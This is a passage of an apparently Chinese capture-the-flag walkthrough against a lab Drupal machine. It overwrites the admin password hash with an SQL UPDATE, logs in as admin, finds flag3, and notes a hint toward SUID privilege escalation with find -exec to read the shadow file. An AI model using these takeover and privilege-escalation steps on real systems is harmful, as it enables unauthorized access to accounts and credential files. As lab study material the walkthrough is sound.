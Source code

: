 >  
 将pass字段进行替换 


```
update users set pass="$S$DW/j0Hhhx6pIBV4ZkoBp3mv/5l8reTwEBdpgzB/x8awTYUfFkd2k" where name="admin";

```

<img src="https://img-blog.csdnimg.cn/2b7dbe17ddf147c58c28985017aee2da.png" alt="在这里插入图片描述">

#### 12.登录站点

>  
 访问站点 


```
http://192.168.233.177/

```

<img src="https://img-blog.csdnimg.cn/ce79ffcc849143879e3c3576e9678376.png" alt="在这里插入图片描述">

>  
 进行登录，密码是之前我们自己替换的，账号是admin 


```
admin
111111

```

>  
 成功登录 


<img src="https://img-blog.csdnimg.cn/f9d539b39074482c97f729c2f600e60e.png" alt="在这里插入图片描述">

#### 13.发现flag3

>  
 登陆战点之后，随便翻一番，发现flag3， 


```
http://192.168.233.177/node#overlay=admin/content

```

<img src="https://img-blog.csdnimg.cn/535c18b67de44e6eaf06369ac15bdc7b.png" alt="在这里插入图片描述">

>  
 点击flag3进入，发现提示信息 


```
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
大致意思是提权并提示 -exec，想到suid提权 find 命令

```
